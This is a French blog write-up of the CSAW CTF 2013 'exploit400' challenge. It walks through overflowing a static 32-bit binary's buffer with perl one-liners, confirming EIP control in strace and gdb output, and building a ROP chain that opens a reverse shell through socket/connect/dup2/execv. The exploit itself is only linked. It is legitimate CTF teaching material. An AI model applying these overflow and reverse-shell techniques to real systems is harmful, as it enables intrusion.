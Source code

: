 Title: [CSAW-CTF-2013] Exploit 400
Date: 2013-09-23
Tags: ctf
Author: Tosh
Summary: csaw-ctf exploit400 write-up

Voici un petit write-up pour le challenge exploit400 du CSAW-CTF 2013.

Vous pouvez trouver le binaire ici : [exploit400](http://www.t0x0sh.org/repo/CTFCSAW_2013/exploit400)

	:::console
	$ file ./miteegashun
	./miteegashun: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=41bbe92f629cbca9784458456d94282b2d2fd9e0, stripped

On a donc un ELF 32 bits statique et strippé.

L'avantage du binaire statique, c'est qu'on va avoir tout un tas de gadgets pour faire du ROP.

On remarque assez vite qu'en envoyant une longue chaine de caractère, on controle facilement EIP :

	:::console
	$ perl -e 'print "A"x500;' | strace -i ./miteegashun
	[b7760424] execve("./miteegashun", ["./miteegashun"], [/* 32 vars */]) = 0
	[b77c1424] uname({sys="Linux", node="rand00m", ...}) = 0
	[b77c1424] brk(0)                       = 0x8ae6000
	[b77c1424] brk(0x8ae6d40)               = 0x8ae6d40
	[080494fb] set_thread_area({entry_number:-1 -> 6, base_addr:0x8ae6840, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
	[b77c1424] brk(0x8b07d40)               = 0x8b07d40
	[b77c1424] brk(0x8b08000)               = 0x8b08000
	[b77c1424] write(1, "Welcome to this demo of my explo"..., 93Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong
	) = 93
	[b77c1424] fstat64(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
	[b77c1424] mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb77c0000
	[b77c1424] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 500
	[b77c1424] read(0, "", 4096)            = 0
	[41414141] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
	[????????] +++ killed by SIGSEGV (core dumped) +++
	Erreur de segmentation (core dumped)

Pour faciliter le débuguage avec GDB, j'ai utilisé un fifo :

	:::console
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x417 . "CCCC"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x43434343  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c 
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x43434343
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x43434343
	0x43434343 in ?? ()
	gdb$ x/20xw $esp
	0x80f0448:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0458:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0468:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0478:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0488:      0x41414141      0x41414141      0x41414141      0x41414141

On remarque quelque chose d'étrange : déjà, l'adresse de la stack est en 0x080fXXXX. On imagine donc que le binaire a sa propre stack située dans le segment DATA.

Ensuite, après avoir écrasé EIP, on retournera dans notre buffer lorsqu'on essayera de faire du ROP.

Essayons quelque chose :

	:::console
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x264 . "CCCC" . "B"x(413-264) . "DDDD"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x44444444  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c 
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x44444444
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x44444444
	0x44444444 in ?? ()
	gdb$ x/20x $esp
	0x80f0448:      0x43434343      0x42424242      0x42424242      0x42424242
	0x80f0458:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0468:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0478:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0488:      0x42424242      0x42424242      0x42424242      0x42424242

Cette fois, on controle toute la chaine d'exécution !

Notre payload ressemblera à ça après calcul des différents offsets :

![Payload](images/exploit400.png)

Il y a une petite difficultée supplémentaire : le file descriptor doit être fermée pour que le payload soit exécuté. On ne peut donc pas réutiliser la socket !
Vu que nous disposons d'une grosse quantité de gadgets, je me suis amusé à faire une ROP chain basé sur l'instruction int 0x80.
Elle exécute à la suite : socket()/connect()/dup2()/execv

Voilà l'exploit : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/csaw_ctf_2013/exploit400.pl)


Par contre, le fichier contenant la clef s'affichait seulement avec ls -l (why ?!).
Un challenge plutôt sympa.
